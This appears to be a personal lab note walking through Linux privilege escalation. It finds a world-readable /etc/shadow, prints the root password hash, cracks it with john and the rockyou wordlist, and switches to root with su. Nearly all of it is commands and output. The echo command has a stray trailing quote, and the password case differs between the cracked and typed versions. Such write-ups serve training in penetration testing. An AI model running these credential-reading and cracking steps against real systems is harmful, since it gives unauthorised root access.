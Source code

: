 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

The /etc/shadow file contains user password hashes, and by default is not readable by any user except for root.

If we are able to read the contents of the /etc/shadow file, we might be able to crack the root user’s password hash.

If we are able to modify the /etc/shadow file, we can replace the root user’s password hash with one we know.

```bash - target
./lse.sh -i | more
```

![[Pasted image 20211230132303.png]]

1. Check the permissions of the / / etc /shadow file:

```bash - target
ls -l /etc/shadow
```

-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

-   Note that it is world readable.

2. Extract the root user’s password hash:

```bash target
head -n 1 /etc/shadow
```

```root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::```

3. Save the password hash in a file (e.g. hash.txt):

```bash - kali
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```
```

4. Crack the password hash using john :

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

password123 (?)

5. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
Password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

